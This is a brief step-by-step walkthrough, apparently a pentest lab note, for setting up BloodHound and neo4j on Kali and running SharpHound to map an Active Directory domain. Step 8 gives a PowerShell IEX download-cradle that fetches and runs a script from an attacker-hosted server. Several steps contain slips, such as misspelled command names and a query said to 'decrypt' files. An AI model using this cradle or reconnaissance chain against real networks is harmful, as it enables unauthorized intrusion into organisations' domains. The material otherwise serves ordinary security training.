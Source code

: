 1. Set up java 8 on the kali machine - update-alternatives --config java
2. Install bloodhound and neo4j - apt install bloodhound neo4j
3. Use the terminal to start neo4j - neo4j console
4. Navigate to http://localhost:7474 and use neo4j default credentials to activate the browser: 
	Username: neo4j 
	Password: neo4j
5. Open the terminal and use bloodhound to start bloodhound - bloodhound
6. Download sharphound from github - git clone https://github.com/BloodHoundAD/BloodHound.git\
7. Navigate to Ingestors in BloodHound and start python http server - python -m SimpleHTTPServer
8. In windows 10 powershell use IEX to load sharphound - IEX(new-object net.webclient).downloadstring('http://[ip]:[port]/SharpHound.ps1')
9. Use Invoke-BloodHoud to select the collection method - Invoke-BloodHound -CollectionMethod default
10. Navigate to the directory of the output exported by BloodHound then drag and drop the zip file to the kali machine
11. Drag the zip file to the BloodHound web interface
12. Insert the following cypher to decrypt the json files that are loaded - MATCH (B)-[A] ->(R) RETURN B,A,R
13. Use queries  to explore the domain - Example: Shortest Phats to High-Value Targets